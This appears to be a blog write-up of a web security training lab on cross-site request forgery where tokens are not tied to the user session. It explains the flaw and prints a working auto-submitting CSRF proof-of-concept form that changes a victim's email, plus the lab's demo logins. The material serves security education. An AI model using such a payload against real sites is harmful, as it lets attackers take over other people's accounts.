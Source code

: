 ```yaml
---
layout: post
title:  "CSRF where token is not tied to user session"
date:   2024-10-01 09:39:54 +0530
---
```


## Objective 

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

```sh
wiener: peter
carlos: montoya
```

## Solution 

We do have two accounts right one is `wiener` and another one is `carlos` and where just like the other labs the `Update Email` is vulnerable to CSRF attack where as mentioned in the lab objective 

Once after updating the email once through UI and again did the same.. Then Intercepted through the burp and sent the request once again.. Unfortunately.. CSRF token is used only once and everytime it resets.. In our case, Applies the same here you can see I faced an error 

![]({{ site.baseurl }}/assets/images/csrf-10.png) 

What else, I logged in as `carlos` and copied the CSRF token.. used it in the following request and it worked !! where I just need a valid CSRF token and it isn't tied to the session 

![]({{ site.baseurl }}/assets/images/csrf-11.png)

Let's generate a CSRF POC, here is how it looks 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a8e00b303e188c480c121ab007c004e.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="se&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="obAPC9kDWecO5QxpcOohLevTLG11WGi9" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Now we can replace the value of `csrf` and put it to the exploit server.. Then deliver the exploit to victim.. That solves a lab 

![]({{ site.baseurl }}/assets/images/csrf-12.png)